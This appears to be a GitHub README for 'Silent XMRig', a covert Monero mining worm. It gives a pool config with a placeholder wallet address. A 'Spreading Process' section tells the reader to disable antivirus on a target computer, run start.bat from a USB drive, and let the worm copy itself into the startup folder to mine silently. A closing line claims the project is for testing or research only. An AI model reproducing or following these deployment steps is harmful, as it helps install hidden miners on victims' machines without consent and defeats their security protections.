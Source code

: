 # Silent XMRig
Silent XMRig miner config with installer and startup.

# Setup

You will start by needing a Monero address and a monero mining pool, (MoneroOcean is default).

1. Navigate to xmrig/config.json and edit the following lines:

```json
{
   "url": "gulf.moneroocean.stream:10128 ", # mining pool url (leave as default if you don't know what a mining pool is)
   "user": "MONERO-ADDRESS-HERE", # your Monero address
   "pass": "hidden", # name of the machine that will be displayed on the mining pool
}
```

2. copy the code onto a USB drive
3. Setup Complete

# Spreading Process

1. Disable the antivirus on the target computer or add an exception for xmrig
2. Plug the USB drive into the computer or download your program from the cloud
3. Run start.bat. The worm will copy itself to the startup folder and will silently start mining Monero for you.
4. If you did not change the mining pool line in config.json, head over to https://moneroocean.stream/ and enter your Monero address, you should start earning after a few minutes.

# This project is intended for testing/research purposes only.
